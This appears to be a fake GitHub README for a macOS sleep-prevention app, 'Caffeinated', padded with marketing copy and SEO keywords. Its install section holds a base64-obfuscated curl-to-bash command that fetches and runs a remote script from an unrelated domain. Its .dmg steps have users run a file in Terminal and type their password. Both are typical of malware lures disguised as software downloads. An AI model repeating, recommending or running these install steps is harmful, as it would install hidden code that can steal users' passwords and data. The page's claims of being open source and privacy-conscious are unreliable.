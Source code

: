 # Caffeinated for Mac

![Caffeinated Icon](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/d1/d4/d2/d1d4d241-5c45-e097-bce6-b0a376a57473/AppIcon-0-0-85-220-0-0-5-0-2x-0-0-0.png/1200x630bb.png)

---

## 📦 Download

[![⬇️ Download Now](https://img.shields.io/badge/Caffeinated-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/caffeinated)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🧠 What is Caffeinated for Mac?

**Caffeinated for Mac** is a lightweight yet powerful utility designed to keep your Mac from entering sleep mode. It sits quietly in your macOS menu bar, giving you full control over your system’s sleep behavior with a single click. Whether you're downloading large files, watching videos, giving a presentation, or working on a project that requires constant system availability, Caffeinated ensures that your Mac stays fully awake and responsive for as long as you need.

The app acts as a safeguard against interruptions caused by the automatic sleep function in macOS. It offers a sleek, distraction-free interface and doesn't require digging into System Preferences or dealing with Terminal commands. With Caffeinated, you can choose to disable sleep indefinitely or set custom timers — from minutes to hours — allowing you to focus on the task at hand without worrying about your screen dimming or your session being interrupted.

But what truly sets Caffeinated apart is its **native macOS integration**. It's built from the ground up to work seamlessly with all macOS versions, including the latest updates and hardware — such as Apple Silicon (M1, M2, M3). The app respects system resources, using minimal CPU and memory, making it perfect for power users and casual users alike. It also supports **Dark Mode**, **Retina displays**, and **macOS accessibility features**.

Originally inspired by the classic Caffeine app, Caffeinated is a modern, privacy-conscious alternative. It doesn’t collect data, run in the background unnecessarily, or require unnecessary permissions. It's a reliable, open-source tool that’s highly customizable and updated regularly by an active developer community.

Whether you're a developer running long builds, a student in a virtual lecture, or a professional streaming or editing content — **Caffeinated** provides the simplicity and reliability you need to keep your Mac awake exactly when it matters most.

---

![Caffeinated Screenshot](https://caffeinated.app/wp-content/uploads/2021/01/asset-1.png)

---

## ✨ Features

- Prevents macOS from going into sleep mode  
- Custom timer support (stay awake for X minutes/hours)  
- One-click toggle from the menu bar  
- Automatic deactivation after timer expires  
- Minimal system resource usage  
- Compatible with **macOS Light & Dark Modes**  
- Runs natively on **Apple Silicon (M1/M2/M3)**  
- No intrusive permissions or background activity  
- Free and open source

---

## 💻 Compatibility

- macOS **10.13 High Sierra** and newer  
- Fully compatible with **macOS Monterey**, **Ventura**, **Sonoma**  
- Native support for **Apple Silicon (M1, M2, M3)** and **Intel Macs**  
- Works on **MacBook Air**, **MacBook Pro**, **iMac**, **Mac Studio**, **Mac Mini**

---

## 🏷️ Keywords

`caffeinated mac`, `caffeine app mac`, `caffeine application mac`, `caffeine for macbook`, `caffeine mac os`, `caffeine macbook app`, `download caffeine for mac`, `caffeine osx`, `mac os caffeine app`, `app caffeine mac`, `caffeine app download mac`, `caffeine app for mac free download`, `caffeine app mac download`, `caffeine app mac m1`, `caffeine app macos`, `caffeine for mac free download`, `caffeine for mac m1`, `caffeine for macos`, `caffeine mac install`, `caffeine mac m1`, `caffeine program mac`, `caffeine software for mac`, `caffeine software mac`, `install caffeine mac`

---

